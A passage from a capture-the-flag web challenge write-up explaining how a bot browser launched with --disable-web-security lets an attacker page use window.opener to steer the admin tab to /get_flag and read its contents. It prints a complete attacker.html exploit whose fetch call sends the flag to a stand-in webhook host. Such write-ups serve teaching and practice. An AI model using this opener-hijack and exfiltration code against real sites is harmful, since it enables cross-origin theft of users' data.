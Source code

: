 This is helpful because navigation of the opener window is possible, which means that
the opened page can open a URL in the original tab or window NOT worrying about CSRF,
because it's the same origin!

![showcasing window relations](/images/l3ak25/window-of-opp-opener.gif)

So we can navigate the admin to `/get_flag`, but could we read the response?

### Revisiting `--disable-web-security` Flag

normally, Windows opened by links with a target of `_blank` don't get a reference to the opener,
unless explicitly requested with `rel=opener`.

This is part of SOP. It makes sense that browsers do that by default. However,
this challenge is not the usual, Using the `--disable-web-security` flag doesn't enforce the same-origin policy.
It's meant for testing purposes only and should have no effects unless `--user-data-dir` is also present.

Luckily for us, we have **all** the effects we need.

## Exploitaiton

Armed with this knowledge, we can exfiltrate the flag by hosting a malicious `attacker.html`
page where:

1. We navigate the opener window that belongs to the admin to get the flag:

```js
window.opener.location = "http://challenge/get_flag";
```

2. Wait some time for the flag to load.

3. Grab the flag and send it to our server:

```js
const flagText = window.opener.document.body.innerText;
fetch("https://webhook/?flag="+flagText);
```

> `window.opener.document.body.innerText` throws a DOMException unless origins match or SOP is disabled
> (which is our case with the --disable-web-security flag), so read is possible

Putting everything together, we get the following

### `attacker.html`

```html
<!DOCTYPE html>
<html>
  <body>
    <script>
      // Redirect the original admin tab to /get_flag
      window.opener.location = "http://challenge/get_flag";

      // Wait for admin's tab to load, then steal the flag
      setTimeout(() => {
        try {
          const flagText = window.opener.document.body.innerText;

          fetch("https://webhook/?flag="+flagText);
        } catch (err) {
          console.error("Failed to read flag:", err);
        }
      }, 400);
    </script>
  </body>
```